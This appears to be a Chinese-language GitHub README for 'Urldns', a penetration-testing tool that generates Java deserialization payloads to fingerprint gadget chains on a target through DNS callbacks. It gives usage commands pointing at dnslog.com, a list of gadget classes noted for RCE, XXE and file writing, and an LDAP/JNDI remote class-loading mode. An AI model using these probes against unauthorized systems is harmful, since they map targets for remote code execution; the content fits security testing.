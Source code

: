 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
```
CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
JRE8u20
winlinux
```

使用ldap模式的all将额外探测如下  
```
//BeanFactory,配合无参构造和单String方法RCE
org.apache.naming.factory.BeanFactory
javax.el.ELProcessor
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.xmlpull.v1.XmlPullParserException
org.xmlpull.mxp1.MXParser
org.mvel2.sh.ShellSession
com.sun.glass.utils.NativeLibLoader
//XXE和文件写入
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
//h2 RCE
org.h2.Driver
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.commons.pool.KeyedObjectPoolFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.pool2.PooledObjectFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
com.alibaba.druid.pool.DruidDataSourceFactory
//WebSphere加载jar RCE
com.ibm.ws.client.applicationclient.ClientJ2CCFFactory
com.ibm.ws.webservices.engine.client.ServiceFactory
```

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
